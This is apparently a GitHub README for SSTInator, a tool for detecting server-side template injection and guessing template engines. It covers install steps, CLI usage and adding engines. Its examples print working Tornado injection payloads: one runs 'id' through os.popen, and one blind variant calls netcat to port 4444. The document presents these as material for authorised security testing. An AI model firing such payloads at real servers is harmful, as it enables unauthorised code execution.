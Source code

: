 # 🧪 SSTInator — Universal SSTI Guesser & Detector

**SSTInator** is a high-performance, multi-language Server-Side Template Injection (SSTI) testing playground and engine discriminator.  
Built for red teamers, CTFer, researchers, and pentesters, it allows you to test templates against dozens of engines across languages in a unified way.

---

## 🚀 Features

- ✅ Supports multiple languages: `Python`, `Node.js`, `PHP`, `Ruby`, `Java`, `Go` ( not yet )
- 🔍 Automatic engine discrimination via payload analysis
- 🔓 Built-in exploitation PoCs for vulnerable engines
- 🧩 Easy to extend with new languages or engines
- 🖥️ Interactive CLI with history & autocomplete
- 📦 No Docker needed (but compatible)
- 🛠️ Fast, modular architecture with persistent background workers per language

---

## 📦 Installation

### 💡 Prerequisites

Make sure you have the following installed globally:

- Python 3.8+
- Node.js (with `npm`)
- PHP (with `composer`)
- Ruby (with `bundler`)
- Java (JDK + `maven`)
- Go (>= 1.20) ( soon :) )

---

### 🛠️ Install

```
git clone https://github.com/ToGiDoG/SSTInator
cd SSTInator
chmod +x install.sh
./install.sh
```

The installer sets up each language’s dependencies and prepares the playground.

---

## 🧪 Usage

### 🔁 Launch all tests

```
python3 main.py
```

### 📜 You know the langague ? 

```
python3 main.py -l ruby,python
```

### 🧠 Ask SSTInator the template engine !!

```
python3 main.py -l ruby -g
```

### 📜 List all available engines

```
python3 main.py --list-engines
```

---

## 🧰 Examples

During the discrimination phase, only copy/paste the answers from your engine under test into the SSTInator (not possible in blind).

```
Starting engine discrimination (case sensitive)


🔍 Discriminator payload: {{7*'7'}}

> 7777777

🔍 Discriminator payload: {%for i in [1,2,3]%}{{i}}{%end%}

> 123

✅ After discrimination: tornado


🔓 Available exploits:

- tornado:
    • rce → {{__import__('os').popen('id').read()}}
    • blind_rce → {% import os %}{{os.system('nc localhost 4444')}}
```

---

## ✨ Adding New Engines

To add new template engines:

1. Edit the relevant `engines/<lang>/engines.*` file 
2. Register a new function: `engine_name → function(template: str) → str`
3. Restart the playground

---

## ⚠️ Legal Notice

This tool is for **educational and authorized testing only**.  
Never use it against systems without **explicit permission**.

---

## 📄 License

MIT © ToG
